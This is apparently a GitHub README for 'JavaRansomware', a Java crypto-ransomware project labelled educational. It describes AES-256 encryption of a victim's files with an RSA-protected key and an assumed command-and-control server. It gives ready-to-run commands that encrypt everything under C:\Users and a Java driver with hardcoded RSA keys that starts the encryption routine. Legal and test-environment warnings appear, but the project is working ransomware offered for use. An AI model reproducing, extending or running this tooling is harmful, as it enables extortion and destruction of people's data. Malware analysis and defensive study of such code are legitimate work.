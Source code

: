 # JavaRansomware
<p>Ransomware is malware for data kidnapping, an exploit in which the attacker encrypts the victim's dataRansomware stops you from using your PC.Ransomware spreads through e-mail attachments, infected programs and compromised websites. A ransomware malware program may also be called a cryptovirus, cryptotrojan or cryptoworm It holds your PC or files for "ransom".</p>

# What does ransomware do?
<p>There are different types of ransomware. However, all of them will prevent you from using your PC normally, and they will all ask you to do something before you can use your PC.

They can target any PC users, whether it’s a home computer, endpoints in an enterprise network, or servers used by a government agency or healthcare provider.

Ransomware can:</p>

* Prevent you from accessing Windows.

* Encrypt files so you can't use them.

* Stop certain apps from running (like your web browser).

<p>Ransomware will demand that you pay money (a “ransom”) to get access to your PC or files. We have also seen them make you complete surveys.

There is no guarantee that paying the fine or doing what the ransomware tells you will give access to your PC or files again.</p>

# Project Summary
<p>This project aims to build an almost functional crypto-ransomware for educational purposes, written in in pure java. Basically, it will encrypt your files in background using AES-256, a strong encryption algorithm, using RSA-4096 Public Key to secure the AES Symetric key and store it in an embeeded database.</p>

<p>Assume that there is a C &amp C Server who  for store the Id and the respective encryption key and possibly act as a Command and Control server in the near future.</p>

<p>The malware encrypt with your RSA-4096 public key any payload before send then to the server. This approach with the https transport together make the security and authentication almost unbreakable (in theory).</p>

<p>For Education Purposes I will not Provide the Full Server  source code.,as i decribed in the previous paragraph.  Let's imagine a simple testing example which client by deafult has the Asymmetrtic encryption keys.</p>

# Usage and How it Works
<p>The easiest way to run this Project is to use the the <a href="https://github.com/PanagiotisDrakatos/JavaRansomware/blob/master/JavaRansomware-2.1-jar-with-dependencies.jar">.jar</a> open a cmd terminal and simply run the below commands </p>

 ```
 $ cd JarPath
```

<p> Encrypt All Files in the Current Path wait until the execution will be finished </p>

 ```
 $ java -jar JavaRansomware.jar C:\Users Encrypt
```

<p> Decrypt All Files in the Current Path wait until the execution will be finished </p>

 ```
 $ java -jar JavaRansomware.jar C:\Users Decrypt
```

> DON'T RUN JavaRansomware.jar IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT(VMWARE)!

<p>if you want to use the project programmatically just put the below code in your project and simply run it. Don't forget to give Input arguments from the Command-Line Arguments. i've put  a printscreen to see how to give Paramaters</p>

<h2>Java Manual</h2>

```java
public class App {
 
  private static final String PubicKey = "MFwwDQYJKoZIhvcNAQEBBQADSwAwSAJBAJCw1HHQooCFGsGhtxNrsdS6dDq5jtfHqqLInCj7qFlDaD/Sll5+BAUjV0GU/c+6PVyMKzmLrHh49eeGQy1ETN8CAwEAAQ==";
    private static final String PrivateKey = "MIIBVAIBADANBgkqhkiG9w0BAQEFAASCAT4wggE6AgEAAkEAkLDUcdCigIUawaG3E2ux1Lp0OrmO18eqosicKPuoWUNoP9KWXn4EBSNXQZT9z7o9XIwrOYuseHj154ZDLURM3wIDAQABAkA9AnLx8tkye+2GTBwYEkcPvfcYc/mpPsXSkehW15Zq3IALx3Kr5GgKGOaB2FK6PU0QzEPQbNJXdA5ZPjwTDcQBAiEA1/zINRVlrLpw2HPfqsYQ8ZSDuG2rVUUKKmKgJQXeQ98CIQCrfsw2+VKOaFoJm5BpVxIT5nsE8CXn4fr/WSFuklMXAQIgTKWnAreCKmbLTvTn5bl+H8zdZaB9kbf7YIk5XYoUky8CIQCL2ccnPYK5ZxelphrKDJtNZzMC/+OpiXtqKIE+7kycAQIgRK/DUhWUgSQV5u7VoCHDyLPCntjFMGBsg7Wi1uq+EDM=";
    
    private static final String ENCRYPT = "ENCRYPT";
    private static final String DECRYPT = "DECRYPT";

    public static void main(String[] args) throws RansomwareException {

        Processing(args[0], args[1]);
    }

    private static void Processing(final String toSearch, final String attack) throws RansomwareException {
        final RansomProcess p = new RansomProcess(toSearch);

        if (attack.equalsIgnoreCase(ENCRYPT))
            p.StartEncryptProcess(PubicKey);
        else if (attack.equalsIgnoreCase(DECRYPT))
            p.StartDecryptProcess(PrivateKey);
        else
            throw new RansomwareException("Mismatched Values Try again with correct one");

    }

}
```
---

![alt tag](https://github.com/PanagiotisDrakatos/JavaRansomware/blob/master/JavaRansomWare.PNG)


# Legal Warning
<p>While this may be helpful for some, there are significant risks. JavaRansomware may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail if if you will use it for malicious purposes.</p>


# Contribute
 1. Fork it: git clone https://github.com/PanagiotisDrakatos/JavaRansomware.git
 2. Create your feature branch: git checkout -b my-new-feature
 3. Commit your changes: git commit -am 'Add some feature'
 4. Push to the branch: git push origin my-new-feature
 5. Submit a pull request :D
 
# License
<p> This project is licensed under the MIT License - see the<a href="https://github.com/PanagiotisDrakatos/JavaRansomware/blob/master/LICENSE">Licence.md</a>file for details</p>
